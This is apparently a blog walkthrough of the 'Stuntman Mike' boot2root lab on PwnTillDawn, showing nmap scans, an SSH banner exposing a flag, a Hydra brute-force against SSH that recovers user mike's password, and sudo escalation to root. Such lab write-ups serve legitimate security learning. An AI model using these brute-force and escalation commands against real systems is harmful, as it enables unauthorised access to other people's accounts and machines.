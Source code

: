 ```yaml
---
title: Stuntman Mike - Easy Linux Boot2root on PwntillDawn
date: 2023-10-28 00:00:00 -500
categories: [Hacking for Beginners, Boot2root CTFs]
tags: [Linux, PWTD, Easy, Hacking]
image:
    path: https://i.ibb.co/G5GTsCf/stuntman.png
---
```

PwnTillDawn Online Battlefield is a penetration testing lab created by the wizlynx group. Here, participants can put their offensive security skills to the test within a safe and legal environment, all while having a blast! The goal is simple: breach as many machines as possible by exploiting a sequence of weaknesses and vulnerabilities, and gather flags to demonstrate your successful exploitation
If you're eager to enhance your hacking skills and learn alongside us, we invite you to join the ranks of aspiring hackers and cybersecurity enthusiasts.

- **Improve your Hacking skills [Here](https://affiliate.hackthebox.com/nenandjabhata)**.
- **Join TryHackMe [Here](https://tryhackme.com/signup?referrer=61e8a27ddd3f3b00496505d1)**.

## Enumeration(Recon)
for the enumeration time, we always start with a basic nmap scan.. Like this.
```terminal
└─# nmap -Pn -p- --open 10.150.150.166
Host is up (1.1s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8089/tcp open  unknown
```
As you can see here, our nmap scan found only 2 open port, and the port `8089` service seem's to be unknow. Let's launch another scan on that specific port.
```terminal
└─# nmap -sV -p8089 $ip 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-28 13:22 GMT
Stats: 0:01:14 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 50.00% done; ETC: 13:24 (0:00:03 remaining)
Stats: 0:01:15 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 50.00% done; ETC: 13:24 (0:00:05 remaining)
Nmap scan report for 10.150.150.166
Host is up (0.94s latency).

PORT     STATE SERVICE  VERSION
8089/tcp open  ssl/http Splunkd httpd
```
So, here we used nmap with the `-sV` that will Probe open ports to determine service/version info. and here we found an http Splunkd Version on that port. Let's visit it.

![The Splunkd Website](https://i.ibb.co/MPTksXf/splunk.png){:class="img-responsive"}
In this website, i tried to launch a Directory Fuzzing attack but nothing on it. The second Way now is to attack the ssh port `22`.
I will try to connect on the root ssh account using the `-v` flag, to see All Verbosity.
```terminal
└─# ssh root@10.150.150.166 -v
debug1: get_agent_identities: bound agent to hostkey
debug1: get_agent_identities: ssh_fetch_identitylist: agent contains no identities
debug1: Will attempt key: /root/.ssh/id_rsa ED25519 SHA256:B0hYWC7V1dBf7UAC5CM40v15EhQp9lzkw6JU8akRQ/c
debug1: Will attempt key: /root/.ssh/id_ecdsa 
debug1: Will attempt key: /root/.ssh/id_ecdsa_sk 
debug1: Will attempt key: /root/.ssh/id_ed25519 
debug1: Will attempt key: /root/.ssh/id_ed25519_sk 
debug1: Will attempt key: /root/.ssh/id_xmss 
debug1: Will attempt key: /root/.ssh/id_dsa 
debug1: SSH2_MSG_EXT_INFO received
debug1: kex_input_ext_info: server-sig-algs=<ssh-ed25519,ssh-rsa,rsa-sha2-256,rsa-sha2-512,ssh-dss,ecdsa-sha2-nistp256,ecdsa-sha2-nistp384,ecdsa-sha2-nistp521>
debug1: SSH2_MSG_SERVICE_ACCEPT received
You are attempting to login to stuntman mike's server - FLAG35=724a2734e80ddbd78b2694dc5eb74db395403360
debug1: Authentications that can continue: publickey,password
debug1: Next authentication method: publickey
debug1: Offering public key: /root/.ssh/id_rsa ED25519 SHA256:B0hYWC7V1dBf7UAC5CM40v15EhQp9lzkw6JU8akRQ/c
debug1: Authentications that can continue: publickey,password
debug1: Trying private key: /root/.ssh/id_ecdsa
debug1: Trying private key: /root/.ssh/id_ecdsa_sk
debug1: Trying private key: /root/.ssh/id_ed25519
debug1: Trying private key: /root/.ssh/id_ed25519_sk
debug1: Trying private key: /root/.ssh/id_xmss
debug1: Trying private key: /root/.ssh/id_dsa
debug1: Next authentication method: password
root@10.150.150.166's password: 
```
As you can see in this ouput, we found this `You are attempting to login to stuntman mike's server - FLAG35=724a2734XXXXXXXXXXXXXXXXXXXXXXXXXXXXX`. 
On this note that tell Us we are trying to connect to mike's server, now we know that there is a mike user.
**Bruteforce mike's Password**
The method we are going to try, is to bruteforce this user(mike) password using `Hydra` and `rockyou`.
```terminal
└─# hydra -l mike -P /usr/share/wordlists/rockyou.txt ssh://10.150.150.166 -t 60 -I  
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-28 13:51:19
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 60 tasks per 1 server, overall 60 tasks, 14344399 login tries (l:1/p:14344399), ~239074 tries per task
[DATA] attacking ssh://10.150.150.166:22/
[22][ssh] host: 10.150.150.166   login: mike   password: babygirl
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 22 final worker threads did not complete until end.
[ERROR] 22 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
```
Wow, very fast. The password has been found, Now Let's connect on his ssh server using this password.
```terminal
└─# ssh mike@10.150.150.166
  System load:  0.01               Processes:            167
  Usage of /:   28.5% of 19.56GB   Users logged in:      1
  Memory usage: 20%                IP address for ens33: 10.150.150.166
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

18 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


*** System restart required ***
Last login: Tue Apr 21 08:57:00 2020
mike@stuntmanmike:~$ 
```
Successfuly logged in.
## Privilege Escalation
So here, we will check if the user mike have a `sudo` permission on this server using the `sudo -l`
```terminal
mike@stuntmanmike:~$ sudo -l
[sudo] password for mike: 
Sorry, try again.
[sudo] password for mike: 
Matching Defaults entries for mike on stuntmanmike:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on stuntmanmike:
    (ALL : ALL) ALL
```
Good, mike have ALL permission on this server. ALL we have to do is `sudo su` to get `root` privilegies.
```terminal
root@stuntmanmike:~# id;hostnamectl
uid=0(root) gid=0(root) groups=0(root)
   Static hostname: stuntmanmike
         Icon name: computer-vm
           Chassis: vm
        Machine ID: 98ba6d703d174d9e9879437ad460d5c4
           Boot ID: 7fc1f70009394ece804a03c26ed1d3ed
    Virtualization: vmware
  Operating System: Ubuntu 18.04.4 LTS
            Kernel: Linux 4.15.0-96-generic
      Architecture: x86-64
root@stuntmanmike:~# 
```

### Join Us
Thanks for reading. **Let's learn, explore, and hack together**. **Join us on Discord [here](https://discord.gg/wBT9wr9ruG)**. 
